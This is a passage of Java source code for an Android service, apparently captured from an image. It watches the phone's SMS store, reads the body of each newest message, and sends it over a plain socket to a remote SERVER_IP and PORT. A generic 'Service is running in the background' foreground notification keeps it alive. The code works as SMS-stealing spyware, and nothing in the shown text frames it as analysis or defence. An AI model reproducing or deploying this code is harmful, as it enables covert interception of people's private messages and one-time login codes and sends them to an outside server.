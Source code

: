 ```
                super.onChange(selfChange);

                List<String> newSms = readNewSms();
                for (String sms : newSms) {
                    sendSMSToServer(sms);
                }
            }
        };

        getContentResolver().registerContentObserver(Uri.parse(SMS_URI), true, contentObserver);
    }

    private void unregisterContentObserver() {
        if (contentObserver != null) {
            getContentResolver().unregisterContentObserver(contentObserver);
            contentObserver = null;
        }
    }

    private List<String> readNewSms() {
        List<String> newSmsList = new ArrayList<>();
        Cursor cursor = getContentResolver().query(Uri.parse(SMS_URI), null, null, null, "date DESC");

        if (cursor != null && cursor.moveToFirst()) {
            String body = cursor.getString(cursor.getColumnIndexOrThrow("body"));
            newSmsList.add(body);
            cursor.close();
        }

        return newSmsList;
    }

    private void sendSMSToServer(String sms) {
        new Thread(() -> {
            try (Socket socket = new Socket(SERVER_IP, PORT);
                 PrintWriter out = new PrintWriter(socket.getOutputStream(), true)) {
                out.println(sms);
            } catch (IOException e) {
                e.printStackTrace();
            }
        }).start();
    }

    private void startForegroundService() {
        Intent notificationIntent = new Intent(this, MainActivity.class);
        PendingIntent pendingIntent = PendingIntent.getActivity(this, 0, notificationIntent, PendingIntent.FLAG_IMMUTABLE);

        Notification notification = new NotificationCompat.Builder(this, CHANNEL_ID)
                .setContentTitle("Foreground Service")
                .setContentText("Service is running in the background")
                .setSmallIcon(R.mipmap.ic_launcher)
                .setContentIntent(pendingIntent)
                .build();

        if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.O) {
            startForeground(1, notification);
        } else {
            startForeground(1, notification);
        }
    }

```